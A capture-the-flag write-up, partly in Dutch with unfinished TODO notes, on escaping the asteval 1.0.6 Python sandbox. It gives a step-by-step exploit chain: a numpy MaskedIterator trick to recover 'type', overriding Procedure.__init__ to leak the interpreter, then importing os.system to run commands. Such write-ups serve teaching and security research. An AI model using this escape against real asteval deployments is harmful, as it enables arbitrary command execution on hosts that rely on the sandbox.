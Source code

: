 # Paper Viper

**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Insert screenshot van de challenge description

Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c`

`asteval==1.0.6`, de nieuwste release.

## The challenge:

TODO: Context from UofTCTF

```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

## The solution:
Tijdens de CTF is hij twee keer opgelost, door bekenden in de pyjail-scene, Lyndon van Maple Mallard Magistrates en oh_word, van Infobahn.
Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

### Getting a type primitive:

Uitleg: in de chal wordt hiernaar gehint. Hoe vind je dit?
Wat intelligente searches op type in `numpy`, e.g. als je zoekt op `type(self.` zijn er 4 resultaten, waarvan er maar 2 geen tests zijn.  Meer algemene searches zullen het ook vinden, maar dan heb je wat meer werk in het wegstrepen van routes die niet werken met user-controlled argumenten.
In MaskedArray.count ziet het er zo uit:
```python
        if isinstance(self.data, np.matrix):
            if m is nomask:
                m = np.zeros(self.shape, dtype=np.bool)
            m = m.view(type(self.data))
```
Dit is niet vulnerable: zelfs als de isinstance-check geen probleem zou zijn, dan nog wordt het resultaat van deze call dusdanig gebruikt dat het niet zomaar mogelijk is om bij het resultaat te kunnen.

De andere optie:
```python
def __getitem__(self, indx):
        result = self.dataiter.__getitem__(indx).view(type(self.ma))
        if self.maskiter is not None:
            _mask = self.maskiter.__getitem__(indx)
            if isinstance(_mask, ndarray):
                # set shape to match that of data; this is needed for matrices
                _mask.shape = result.shape
                result._mask = _mask
            elif isinstance(_mask, np.void):
                return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
            elif _mask:  # Just a scalar, masked
                return masked
        return result
```
De getitem van MaskedIterator. self.ma is user-controlled, self.dataiter is user-controlled. Als we dus ervoor kunnen zorgen dat de .view-methode op dat object uit de dataiter zijn argument returnt, of het in een globale lijst opslaat oid, dan kunnen we direct bij het resultaat van type en hebben we een werkende type primitive.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
